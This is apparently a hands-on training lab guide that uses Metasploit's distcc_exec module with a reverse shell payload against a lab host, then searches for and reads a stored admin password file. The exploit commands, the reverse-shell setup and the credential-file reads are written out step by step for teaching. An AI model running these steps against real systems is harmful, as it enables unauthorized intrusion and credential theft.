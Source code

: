 # Privilege Escalation Demo

**Note**: Ensure that you do not miss running any of the commands mentioned in the steps below. If you fail to run any of the commands, the lab validation may fail.

We will first set up a low-privileged shell using Metasploit, which you will then use for post-exploitation and privilege-escalation techniques.

1.  Open the Hyper-V Manager in your **LabVM** and right click on **Kali virtual machine** then click on **Connect** to connect to your **Kali virtual machine**.

    ![](./images/selecthyperv.png)

    ![](./images/kali.png)

    login to the Kali VM using username **root** and password **kali**.

2. On the Desktop of Kali VM, right click and choose **Open Terminal here**.

    ![](./images/terminal.png)

3. In the terminal enter **msfconsole** to launch msfconsole.

    ![](./images/msfconsole.png)

4. search for **distcc** using command **search distcc**.

    ![](./images/searchdistcc.png)

5. select the module using command **use exploit/unix/misc/distcc_exec**.

    ![](./images/use.png)

6. set the remote host using command **set RHOSTS 172.22.117.150**.

    ![](./images/Rhosts-1.png)

7. Before running the module, we need to set a payload. List the available payloads using command **show payloads**.

    ![](./images/showpay.png)

8. Select the reverse payload. Be sure NOT to select reverse_bash, or the exploit will not work using command **set PAYLOAD cmd/unix/reverse**.

    ![](./images/reverse.png)

9. Host that listens for the payload communication. In this case, our LHOST is the machine that we're currently operating on. 

    Run command **set LHOST 172.22.117.100**

    ![](./images/lhost.png)

10. Run the module.

    ![](./images/exploit1.png)

11. Use the `find` command (`find / -type f -iname "*admin*.txt"`), as the following image shows:

    ![](./images/find.png)

12. Run the commnd **cat /var/tmp/adminpassword.txt** to get the admin username and password.
    
14. Ensure to validate the exercise by navigating to the **Lab Valiadtion** Tab.

    ![](./images/cat.png)

15. click on **ctrl + c** and then enter command **exit** from msfconsole.

    ![](./images/exit.png)

16. Ensure to validate the exercise by navigating to the **Lab Validation** page.

    ![](./images/validation.png)
